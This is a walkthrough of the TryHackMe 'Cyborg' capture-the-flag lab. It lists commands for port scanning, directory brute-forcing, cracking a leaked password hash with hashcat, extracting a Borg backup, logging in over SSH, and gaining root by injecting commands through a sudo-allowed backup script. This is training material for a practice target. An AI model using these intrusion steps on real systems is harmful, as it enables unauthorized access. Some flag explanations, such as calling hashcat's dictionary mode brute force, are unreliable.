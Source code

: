 # TRYHACKME – Cyborg (CTF)

![6cc3e134a104210f90367c6557e42b6e.jpeg](img/995dbcf2-4ed1-441d-bde4-bdacabe5636a.png)

![Difficulty](img/Difficulty%2011d906d6ee19808b98d8c82328d0d3be_all.csv)

Use nmap tool to scan target ports

**`nmap 10.10.23.140`**

![Untitled.png](img/Untitled.png)

Port: Services:

22     ssh (Secure Shell)

80     http (Hypertext Transfer Protocol)

Use gobuster tool to brute-force directories on web servers

`gobuster dir -u http://10.10.23.140 -w /usr/share/seclists/Discovery/Web-Content/common.txt`

> dir –> to search for directories

> -u –> specify the URL

> -w –> path to the worldlist

![2024-10-12 02_44_02-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_44_02-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Directories found:

/admin

/etc

![2024-10-12 02_45_55-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_45_55-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_47_02-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_47_02-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_47_53-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_47_53-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**Identify the hash type**

**`hash-identifier`** 

**> hash** –> **$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.**

![2024-10-12 02_49_47-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_49_47-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**hash type: md5(APR)**

Crack hash using hashcat tool

**`hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt`**

> -m –> specifies the hash type (1600 – md5 APR)

> -a –> specifies the attack mode (0 – brute force)

![2024-10-12 02_51_27-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_51_27-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_55_34-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_55_34-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Unzip the file

**`tar –xf archive.tar`**

> -xf –> used to extract .rar files

![2024-10-12 02_56_19-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_56_19-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_57_22-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_57_22-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

![2024-10-12 02_56_19-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_02_56_19-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox%201.png)

**`cat README`**

Give as a hint to search for BorgBackup tool

Download borgbackup tool

**`apt install borgbackup –y`**

Extract files with borg

**`sudo borg extract Downloads/home/field/dev/final_archive::music_archive`**

Use the previous cracked  password

**`cat note.txt`**

![2024-10-12 03_02_04-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_02_04-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Connect to the target machine via ssh

**`ssh alex@10.10.159.75`**

![2024-10-12 03_03_59-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_03_59-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`cat user.txt`**

![2024-10-12 03_05_03-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_05_03-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

List the user privileges to see what we can do with this user

**`sudo -l`**

![2024-10-12 03_06_23-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_06_23-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

alex can run this script as “sudo”

`cd /etc/mp3backups`

![2024-10-12 03_11_51-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_11_51-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`cat backup.sh`**

![2024-10-12 03_13_07-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_13_07-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

Optional arguments can be passed through this instruction (OPTARG) 

List directories on root

**`sudo ./backup.sh -c “ls /root”`**

> -c –> pass a command

![2024-10-12 03_20_07-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_20_07-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)

**`sudo ./backup.sh -c “cat /root/root.txt”`**

![2024-10-12 03_21_40-TRYHACKME – Cyborg (CTF).docx — Mozilla Firefox.png](img/2024-10-12_03_21_40-TRYHACKME__Cyborg_(CTF).docx__Mozilla_Firefox.png)
